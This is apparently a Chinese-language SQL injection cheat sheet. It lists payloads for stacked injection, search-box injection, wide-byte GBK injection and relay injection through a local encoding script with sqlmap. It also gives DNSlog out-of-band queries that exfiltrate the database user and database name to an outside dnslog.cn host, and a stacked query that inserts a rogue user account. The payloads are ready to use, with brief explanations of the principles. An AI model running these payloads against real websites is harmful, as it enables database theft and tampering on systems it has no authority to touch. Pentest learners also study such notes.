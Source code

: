 ### 堆叠注入

`?id=1' order by 3%23`

`?id=1';show tables%23`

`?id=-1';show columns from 1919810931114514%23`

`?id=1'; insert into users(id,username,password) values(88,'aaa','bbb')#`

### Dnslog对外注入

通常我们面对SQL注入过程中没有回显的情况下，只能通过盲注的方式来判断是否存在SQL注入，但是，使用盲注，手工测试是需要花费大量的时间的，可能会想到使用sqlmap直接去跑出数据，但在实际测试中，使用sqlmap跑盲注，有很大的几率，网站把ip给封掉，这就影响了我们的测试进度，也许你也可以使用代理池

注入语句：

`?id=1' and (select load\_file(concat('\\\\',(select hex(user())),'.[http://682y4b.dnslog.cn/abc](http://682y4b.dnslog.cn/abc)'))) --+`

`?id=1' and (select load\_file(concat('\\\\',(select database()),'.[http://682y4b.dnslog.cn/abc](http://682y4b.dnslog.cn/abc)'))) --+`

### 中转注入

比如受害者网站URL注入点是经过编码的，不能直接结合sqlmap进行漏洞利用，所以本地搭建一个网站，写一个php脚本编码文件，就可以结合sqlmap工具进行测试。

因为，注入点经过复杂编码之后，就不能直接结合sqlmap进行漏洞攻击了。或者sqlmap自己编写tamper脚本进行攻击

可参考：[https://blog.csdn.net/weixin\_40412037/article/details/110088186](https://blog.csdn.net/weixin_40412037/article/details/110088186)

### 搜索框注入

注入payload：

`%' and '%1%'='%1`

`%' and '%1%'='%2`

Sql数据库语句：select \* from sqltest where names like '%要查询的关键字%'

`a%’ and 1=1–` 正常

`a%’ and 1=2–` 错误

有搜索数据的框可以试试加个%总能大力出奇迹

### 宽字节注入

前提

1. 使用了addslashes()函数

2. 数据库设置了编码模式为GBK

原理：前端输入%df时，首先经过addslashes()转义变成%df%5c%27，之后，在数据库查询前，因为设置了GBK编码，GBK编码在汉字编码范围内的两个字节都会重新编码成一个汉字。然后mysql服务器会对查询的语句进行GBK编码，%df%5c编码成了“运”，而单引号逃逸了出来，形成了注入漏洞

`?id=%df' and 1=1 --+`
